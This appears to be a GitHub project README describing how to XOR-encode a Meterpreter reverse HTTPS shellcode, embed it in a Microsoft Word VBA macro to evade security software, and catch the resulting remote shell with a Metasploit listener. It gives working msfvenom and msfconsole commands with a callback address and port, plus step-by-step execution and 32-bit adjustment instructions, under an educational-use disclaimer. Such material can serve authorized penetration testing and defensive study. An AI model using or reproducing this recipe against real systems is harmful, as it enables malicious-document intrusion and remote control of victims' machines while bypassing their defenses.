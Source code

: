 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

![Captura de pantalla 2025-03-10 a la(s) 15 33 29](https://github.com/user-attachments/assets/7d719c6c-9e80-4f9e-8669-437b5c495510)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

A useful hint is to check whether Microsoft Word on the DEV or TEST machine is running in 64-bit or 32-bit mode. 

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

